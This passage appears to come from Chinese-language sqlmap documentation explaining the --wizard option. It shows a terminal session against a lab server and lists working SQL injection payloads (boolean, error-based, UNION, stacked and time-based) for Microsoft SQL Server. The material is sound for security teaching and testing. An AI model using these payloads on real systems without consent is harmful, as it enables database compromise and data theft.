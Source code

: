 参数：--wizard 面向初级用户的参数，可以一步一步教你如何输入针对目标注入。

```
$ python sqlmap.py --wizard

    sqlmap/1.0-dev-2defc30 - automatic SQL injection and database takeover tool

http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 11:25:26

Please enter full target URL (-u): http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1
POST data (--data) [Enter for None]: 
Injection difficulty (--level/--risk). Please choose:
[1] Normal (default)
[2] Medium
[3] Hard
> 1
Enumeration (--banner/--current-user/etc). Please choose:
[1] Basic (default)
[2] Smart
[3] All
> 1

sqlmap is running, please wait..

heuristic (parsing) test showed that the back-end DBMS could be 'Microsoft SQL Server'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
do you want to include all tests for 'Microsoft SQL Server' extending provided level (1) and risk (1)? [Y/n] Y
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection points with a total of 25 HTTP(s) requests:
---
Place: GET
Parameter: id
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 2986=2986

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause
    Payload: id=1 AND 4847=CONVERT(INT,(CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) (SELECT (CASE WHEN (4847=4847) THEN CHAR(49) ELSE CHAR(48) END)) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)))

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: id=1 UNION ALL SELECT NULL,NULL,CHAR(58) CHAR(118) CHAR(114) CHAR(100) CHAR(58) CHAR(70) CHAR(79) CHAR(118) CHAR(106) CHAR(87) CHAR(101) CHAR(119) CHAR(115) CHAR(114) CHAR(77) CHAR(58) CHAR(111) CHAR(109) CHAR(113) CHAR(58)-- 

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries
    Payload: id=1; WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind
    Payload: id=1 WAITFOR DELAY '0:0:5'--

    Type: inline query
```
